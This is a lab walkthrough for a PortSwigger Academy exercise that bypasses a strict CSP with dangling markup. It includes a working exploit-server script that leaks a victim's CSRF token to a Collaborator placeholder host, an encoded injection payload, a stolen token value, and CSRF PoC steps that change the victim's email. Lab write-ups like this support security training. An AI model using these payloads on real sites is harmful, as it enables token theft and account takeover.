



# Reflected XSS protected by very strict CSP, with dangling markup attack

## Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack) is using a strict CSP that blocks outgoing requests to external websites.

## Reproduction and proof of concept

1. Log in to the lab using the account provided above.
2. Examine the change email function. Note there is an XSS vulnerability in the email parameter.
3. In Burp, go to the Collaborator tab.
4. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
5. Back in the lab, go to the exploit server and add the following code, replacing `lab-id` and `exploit-server-id` with your lab ID and exploit server ID respectively, and replacing `collaborator-id` with the payload just copied from Burp Collaborator.

```text
<script>
if(window.name) {
    new Image().src='//burp-collab-subdomain?'+encodeURIComponent(window.name);
    } else {
        location = 'https://lab-id.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```

6. Click **Store** and then **Deliver exploit to victim**. When the user visits the website containing this malicious script, if they click on the "Click me" link while they are still logged in to the lab website, their browser will send a request containing their CSRF token to your malicious website. You can then steal this CSRF token using the Burp Collaborator client.
7. Go back to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see an HTTP interaction that was initiated by the application. Select the HTTP interaction, go to the request tab, and copy the user's CSRF token.

```text
gO5FXqB3x1YvlTNGh9o0BXK2TumhZF4H
```
8. With Burp's Intercept feature switched on, go back to the change email function of the lab and submit a request to change the email to any random address.
9. In Burp, go to the intercepted request and change the value of the email parameter to `hacker@evil-user.net`:



10. Right-click on the request and, from the context menu, select "Engagement tools" and then "Generate CSRF PoC". The popup shows both the request and the CSRF HTML that is generated by it. In the request, replace the CSRF token with the one that you stole from the victim earlier.



11. Click "Options" and make sure that the "Include auto-submit script" is activated.
12. Click "Regenerate" to update the CSRF HTML so that it contains the stolen token, then click "Copy HTML" to save it to your clipboard.
14. Drop the request and switch off the intercept feature.
15. Go back to the exploit server and paste the CSRF HTML into the body. Overwrite the script that entered earlier.



16. Click **Store** and **Deliver exploit to victim**. The user's email will be changed to `hacker@evil-user.net`.

## Exploitability

To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use the provided exploit server and/or Burp Collaborator's default public server.
